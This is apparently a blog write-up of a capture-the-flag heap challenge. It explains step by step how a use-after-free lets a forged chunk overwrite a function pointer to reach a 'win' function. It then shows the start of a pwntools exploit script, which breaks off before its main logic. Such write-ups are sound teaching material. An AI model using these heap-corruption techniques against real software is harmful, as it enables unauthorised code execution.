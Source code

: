 ```yaml
---
title: Don't Heap All of This Work On Me
date: "2020-07-27 20:20:31.582772"
description: "Introducing the exploits that I've found the hardest - Heap Exploits"
tags: ["Code", "Binary Exploitation"]
---
```


## usemedontabuseme

Binary link: {% asset_link usemedontabuseme Usemedontabuseme %}

---

Heap exploits have generally been hard for me to wrap my head around, and they escalate really fast, as you will see in this writeup:

Lets start with a basic heap exploit. The classic use-after-free. Because there are no checks for whether a part of the heap was freed or not before writing to it, it is rather easy to corrupt heap memory, manipulating it so that it allows for arbitrary reads and writes.

For the first one, we:

1. Malloc and then free 3 nodes.
   1. Currently the bins looks like: 2 -> 1 -> 0 -> NULL (nodes are not in order)
2. Then we print out the address stored in free nodes 1 or 2, which points to an address on the heap
3. Now that we have a heap address, we can forge a chunk by offseting the start of a legitimate chunk such that the name string overlaps with the function pointer.
   1. The new bins look like: 1 -> 2 -> Forged -> (garbage)
4. Then we malloc 2 new chunks to empty the bins
5. Finally we malloc our forged chunk.
6. Write to this forged chunk, which ends up overwriting the function pointer of another chunk. Overwrite with the address of the `win` function and the `0x6447` parameter
7. `cat flag`

```python
#!/usr/bin/python3

from pwn import *

global p
p = process('./usemedontabuseme')
#p = remote('plsdonthaq.me', 7000)

def menu():
    p.recvuntil("Choice: ")

def make(index,name):
    log.info("Make: {}".format(index))
    p.sendline("a")
    p.recvuntil("Clone ID:",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Enter Name")
    p.sendline(name)
    menu()

def edit(index,name):
    log.info("Edit: {}".format(index))
    p.sendline("c")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Enter Name")
    p.sendline(name)
    menu()
```